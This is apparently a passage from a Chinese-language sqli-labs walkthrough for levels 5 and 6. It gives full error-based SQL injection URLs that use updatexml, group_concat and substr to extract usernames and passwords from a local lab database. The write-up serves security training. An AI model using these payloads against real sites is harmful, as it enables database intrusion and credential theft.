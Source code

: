 

**获取账号密码：**`http://127.0.0.1/sqli-labs-master/Less-5/?id=1' and updatexml(1,concat(0x7e,(select group_concat(username,password) from security.users),0x7e),0) --+`
![](sqli-labs/1779065-20210218111351745-608830832.png)



发现这报错注入返回的信息长度只有32位,可以使用substr函数来解除限制

> substr(str,start,length): 用于截获字符串的某段内容
>
> substr("abcde",2), 返回值是"bcde"
>
> substr("abcde",2,2), 返回值是"bc"

**获取账号密码:** `http://127.0.0.1/sqli-labs-master/Less-5/?id=1' and updatexml(1,concat(0x7e,substr((select group_concat(username,password) from security.users),32),0x7e),0) --+`

![](sqli-labs/1779065-20210218111747239-165857581.png)



## Less-6

与第五关不同的是闭合符号，less5是单引号，less6是双引号

获取账号密码：`http://127.0.0.1/sqli-labs-master/Less-6/?id=1" and updatexml(1,concat(0x7e,substr((select group_concat(username,password) from security.users),32),0x7e),0) --+`

![](sqli-labs/1779065-20210218111952221-1073944095.png)
